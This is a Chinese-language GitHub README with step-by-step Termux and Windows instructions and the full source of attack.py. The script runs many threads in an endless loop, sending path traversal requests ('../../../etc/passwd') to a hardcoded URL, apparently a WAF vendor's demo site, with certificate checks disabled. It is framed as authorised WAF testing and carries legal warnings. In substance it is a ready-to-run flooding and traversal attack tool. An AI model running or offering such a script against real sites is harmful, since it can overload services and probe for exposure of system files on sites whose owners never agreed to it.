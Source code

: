 # ⚠️ 高频 HTTP 请求测试脚本（含潜在攻击行为）
> [!CAUTION]
> 🚨 **危险警告：请勿非法使用！**
>
> 本脚本用于测试 WAF 防护、路径穿越检测等，仅限在授权环境中使用。
> 
> ⚠️ **如你对未授权站点执行此代码，可能构成违法攻击行为。**
>
> - 本代码仅供学习、研究与授权测试使用
> - 如有非法用途，后果自负，作者与平台概不负责！

![Image](https://github.com/user-attachments/assets/777aa6a7-7678-4ddf-8e0c-8a27af4a8330)

---

## 🧠 脚本简介

该 Python 脚本使用多线程方式高频访问目标 URL，模拟路径遍历攻击请求（示例 payload 为 `../../../etc/passwd`），用于测试 Web 防火墙（WAF）对恶意参数的拦截与响应能力。

---

## 🖥️ 使用教程

本脚本支持在 **Windows 环境** 和 **Android Termux** 环境下运行。

---

### 📱 Termux 使用教程（Android 手机）

1. 打开 Termux，更新源和安装环境：

    ```bash
    pkg update && pkg upgrade
    pkg install python git
    pip install requests
    ```

2. 创建一个新脚本文件 `attack.py`：

    ```bash
    nano attack.py
    ```

3. 将下方完整脚本复制粘贴进去，按 `Ctrl+X` → `Y` → 回车 保存退出。

4. 运行脚本：

    ```bash
    python attack.py
    ```

---

### 🪟 Windows 使用教程

1. 安装 [Python 官网版本](https://www.python.org/downloads/windows/)
    - 安装时勾选 “Add Python to PATH”
    - 安装后打开命令提示符 `cmd`

2. 安装依赖库：

    ```bash
    pip install requests
    ```

3. 保存以下代码为 `attack.py` 文件。

4. 双击运行或使用命令：

    ```bash
    python attack.py
    ```

---

## 💻 脚本源码（attack.py）

```python
import requests
import threading
import time
import os
import urllib3

# 忽略 HTTPS 证书警告
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# 目标信息
TARGET_URL = "https://demo.waf-ce.chaitin.cn:10084/hello.html"
PAYLOAD = "../../../etc/passwd"

# 请求参数配置
PARAMS = {
    "payload": PAYLOAD
}
HEADERS = {
    "User-Agent": "WAF-Test-Agent/1.0",
    "Referer": "https://demo.waf-ce.chaitin.cn/"
}

# 自动识别线程数（等于 CPU 核心 * 2）
THREAD_COUNT = os.cpu_count() * 2
print(f"[*] 启用线程数：{THREAD_COUNT}")

# 是否持续攻击
CONTINUOUS_ATTACK = True  # 设置为 False 可控制是否持续运行

# 单线程攻击逻辑
def attack_loop(thread_id):
    count = 0
    while CONTINUOUS_ATTACK:
        try:
            response = requests.get(TARGET_URL, headers=HEADERS, params=PARAMS, timeout=3, verify=False)
            count += 1
            print(f"[线程 {thread_id}] 状态码: {response.status_code}，请求数: {count}")
        except Exception as e:
            print(f"[线程 {thread_id}] 错误: {e}")

# 启动所有线程
def start_attack():
    threads = []
    for i in range(THREAD_COUNT):
        t = threading.Thread(target=attack_loop, args=(i + 1,))
        t.start()
        threads.append(t)

    for t in threads:
        t.join()

if __name__ == "__main__":
    print("[*] 持续攻击开始，按 Ctrl+C 停止")
    start_attack()